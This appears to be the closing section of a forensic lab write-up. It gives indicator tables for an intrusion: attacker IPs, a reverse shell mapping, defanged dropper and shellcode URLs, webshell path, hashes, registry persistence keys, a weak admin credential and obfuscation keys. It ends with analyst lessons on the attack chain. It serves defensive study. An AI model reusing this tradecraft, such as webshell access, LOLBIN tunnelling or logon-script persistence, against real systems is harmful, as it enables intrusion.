| Attacker C2 / delivery server | `10.10.72.129` |
| Victim host | `10.10.72.175` |
| Cloudflare edge node | `115.67.33.15` |
| Lure domain | `priceconsultinggrp[.]com` |
| Payload hosting domain | `rummikub-apps[.]com` |
| Reverse shell | `10.10.72.175:53212` → `10.10.72.129:443` |
| Shellcode URL | `hxxp://10.10.72.129/config[.]bin` |
| Dropper URL | `hxxp://10.10.72.129/cat[.]jpg` |
| LOLBIN URL | `hxxp://10.10.72.129/cloudflared[.]exe` |
| Payload ZIP URL | `hxxps://rummikub-apps[.]com/Installer.69-65-1-80-update_brows-y.zip` |

---

**Host Indicators**

| Type | Value |
| --- | --- |
| Victim hostname | `developementpc9` |
| Victim user | `everdeen` |
| Webshell path | `/upload/plugins/Satisfactory/main.php` |
| Plugin archive | `satisfactory.zip` |
| Dropper | `cat.jpg` |
| LOLBIN | `cloudflared.exe` |
| Masquerade path | `C:\Users\everdeen\AppData\Local\Microsoft\OneDrive\OneDriveApp.exe` |
| Shellcode | `config.bin` |
| Injected process | `explorer.exe` |
| Registry key | `HKCU\Environment` |
| Registry value | `UserInitMprLogonScript` |

---

**File Indicators**

| Type | Value |
| --- | --- |
| Webshell SHA256 | `9F9640DBD6489EBF9AF26F4B70E8919C3B5AA08B39702DE44F855936752329C5` |
| `cloudflared.exe` SHA256 | `7C0D7C44AD027BF42F01C63023CEBB04F25443F63735383FDA57087B4DE44D48` |
| `cloudflared.exe` size | `180736` bytes |
| Shellcode size | `511` bytes |

---

**Credentials**

| Type | Value |
| --- | --- |
| LimeSurvey admin | `admin:111111` |
| Windows SID | `S-1-5-21-4240960927-2409407733-4157650394-1000` |

---

**Obfuscation Parameters**

| Type | Value |
| --- | --- |
| Webshell cipher | `m()` character substitution (`str_replace` + `str_split`) |
| Dropper encoding layer 1 | `ROT17` |
| Dropper encoding layer 2 | `ROT24` |
| Binary XOR key | `0x7a` |

# Lab Insights

- **Legitimate tools as force multipliers**`cloudflared.exe` was repurposed as a payload delivery and C2 mechanism with zero modifications to the binary itself. When attackers weaponize signed, trusted executables, hash-based detections and AV signatures fail completely, the binary is clean by design. The forensic tell is context: legitimate OneDrive paths don't spawn network tunnels to Cloudflare edge nodes.
- **Layered obfuscation compounds analyst fatigue:** The attack chain stacked three independent obfuscation layers across two stages: the PHP webshell used a custom character substitution cipher, the PowerShell dropper combined ROT17, ROT24, ASCII integer arrays, and comment noise, and the compiled binary XOR-encoded every sensitive string. No single deobfuscation technique breaks the full chain, each layer requires a different tool and methodology, deliberately raising the cost of analysis.
- **Static analysis has hard limits without dynamic context:** Ghidra recovered the full injection chain, XOR-decoded strings, and registry persistence logic from a stripped binary, but could not recover the shellcode size, which required recognizing a side-channel leak in an `HTTP 304` response header. Static analysis answers what the binary does; network forensics answers what it actually did in this incident. Neither source alone is sufficient.
- **Webshells are low-noise, high-yield footholds:** The `main.php` webshell operated entirely over existing HTTP port `80` traffic, used a single innocuous query parameter (`?lol=`), and generated no new network connections of its own. Its obfuscation was application-layer only, no packing, no AES, just string substitution. This illustrates why plugin upload functionality in web applications is a critical attack surface requiring strict integrity monitoring.
- **Supply chain trust extends to survey respondents:** The final impact stage did not target the compromised host, it targeted every user who completed the survey. By poisoning the `endtext_en` field, the attacker inherited the trust relationship between the victim organization and its customers, pivoting a server compromise into a phishing distribution platform. This downstream impact is often invisible in host-centric investigations and requires following the attacker's full objective, not just the initial breach.
- **Vietnamese-language crimeware kits lower the barrier to entry:** The lure page JavaScript contained Vietnamese developer comments and off-the-shelf `iframe` delivery logic, indicating the attacker assembled this campaign from a pre-built kit rather than writing custom tooling. Commodity kits commoditize sophisticated techniques, silent `iframe` downloads, fake browser update lures, domain separation between lure and payload, making them accessible to lower-skilled operators while retaining high effectiveness against end users.

# Forensic Timeline

